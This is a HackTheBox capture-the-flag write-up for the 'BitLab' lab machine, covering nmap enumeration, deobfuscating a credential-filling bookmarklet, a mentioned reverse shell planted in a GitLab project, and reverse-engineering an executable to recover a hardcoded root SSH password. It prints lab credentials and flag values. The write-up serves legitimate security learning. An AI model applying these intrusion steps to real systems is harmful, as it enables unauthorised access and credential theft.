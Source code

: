 ```yaml
---
date: 2020-01-11 23:48:05
layout: post
title: HackTheBox - BitLab
subtitle: "Created by: Mrx-Exploit"
description: >-
  Created by: Mrx-Exploit
image: >-
  /assets/img/hackthebox/bitlab/banner.png
optimized_image: >-
  /assets/img/hackthebox/bitlab/banner.png
category: blog
tags:
  - hackthebox
  - gitlab
  - web
  - ssh
  - reverse_engineering
  - privilege_escalation
author: Hazem Hesham
paginate: true
---
```



# Summary

It was easy box worth 20 points   
IP : `10.10.10.114`  
Easy user we got it after low enumeration we got it from web interface GitLab running on it and root part was so funny with reverse engineering

# Information Gathering

first lets add `10.10.10.114` to `/etc/hosts` file to bypass any dns records  

> Nmap


As usual we Have to see the open ports So this mission for nmap   

```Bash
root@kali:~# nmap -sVC bitlab.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-10 03:56 EST
Nmap scan report for bitlab.htb (10.10.10.114)
Host is up (0.89s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://bitlab.htb/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.54 seconds
```
I got only `22 and 80` So lets see the web interface
But before we go there is a lot of info in `robots.txt` like `/autocomplete/users /search /api /admin /profile /dashboard /projects/new /groups/new /groups/*/edit /users /help`  
A lot of subs we can visit it so lets see what's inside /help maybe we can get something useful  
Oh there is `HTML` file called `bookmarks.html` So lets see what's inside  
![image](assets/img/hackthebox/bitlab/help.png)

Hmmm All return to the main website but `GitLab` have javascript so wired

```javascript
javascript:(function(){ var _0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65","\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()
```
It's obfuscation so lets deobfuscation this code using [this site](https://lelinhtinh.github.io/de4js/)
And I got this function
```javascript

javascript: (function () {
    var _0x4b18 = ["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];
    document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]] = _0x4b18[3];
    document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]] = _0x4b18[5];
})()
```
# PWN USER

What the hack we got username and passwd damn it's so easy  
`clave:11des0081x`

So lets harry up and try to login
After login we got access on `bitlab.htb/api`  
After some Enumeration I got `bitlab.htb/snippets/1`  

```php

<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
```

So lets try to edit in `root/profile` there is `index.php` file lets add our reverse shell there  

Yup we got **easy to hack easy to build**   

Now lets do php called Whatnow.php and put the php code we got Above and run it `php Whatnow.php`  

Wow we got username and Base64(passwd) So lets decode it and get to try `su -u clave` or ssh with this creds   
There is do decode for it !! so lets use it as we see  

```bash
root@kali:~# ssh clave@bitlab.htb
The authenticity of host 'bitlab.htb (10.10.10.114)' can't be established.
ECDSA key fingerprint is SHA256:hNHxoptKsWqkzdME7Bfb+cGjskcAAGySJazK+gDDCHQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'bitlab.htb,10.10.10.114' (ECDSA) to the list of known hosts.
clave@bitlab.htb's password:
Last login: Thu Aug  8 14:40:09 2019
clave@bitlab:~$ pwd
/home/clave
clave@bitlab:~$ cat user.txt
1e3fd81ec3aa2f1462370ee3c20b8154
```

# PWN ROOT

We have exe file on the clave directory

```Bash
clave@bitlab:~$ ls -la
total 44
drwxr-xr-x 4 clave clave  4096 Aug  8 14:40 .
drwxr-xr-x 3 root  root   4096 Feb 28  2019 ..
lrwxrwxrwx 1 root  root      9 Feb 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 clave clave  3771 Feb 28  2019 .bashrc
drwx------ 2 clave clave  4096 Aug  8 14:40 .cache
drwx------ 3 clave clave  4096 Aug  8 14:40 .gnupg
-rw-r--r-- 1 clave clave   807 Feb 28  2019 .profile
-r-------- 1 clave clave 13824 Jul 30 19:58 RemoteConnection.exe
-r-------- 1 clave clave    33 Feb 28  2019 user.txt
clave@bitlab:~$
```
let's take this program in our Host   
```bash
root@kali:~# scp clave@bitlab.htb:/home/clave/RemoteConnection.exe /root/Desktop/
clave@bitlab.htb's password:
RemoteConnection.exe                                     100%   14KB   6.0KB/s   00:02    
```
And lets use IDA pro for this mission  
After using IDA pro I got something so wired  
![image](assets/img/hackthebox/bitlab/putty.png)
It's calling putty.exe WHY !!?   
I think it's will ssh as root on the box !!?   
Let's try to get run it with breakpoint in `jnz       short  loc_401662`  
and we got it it's calling putty to connect with the box as root using ssh `ssh root@gitlab.htb -pw "Qf7]8YSV.wDNF*[7d?j&eD4^"`
So now we can connect as root let's try it  
```
root:Qf7]8YSV.wDNF*[7d?j&eD4^
```
```bash
root@kali:~# ssh root@bitlab.htb
root@bitlab.htb's password:
Last login: Fri Sep 13 14:11:14 2019
root@bitlab:~# pwd
/root
root@bitlab:~# cat root.txt
8d4cc131757957cb68d9a0cddccd587c
root@bitlab:~#
```
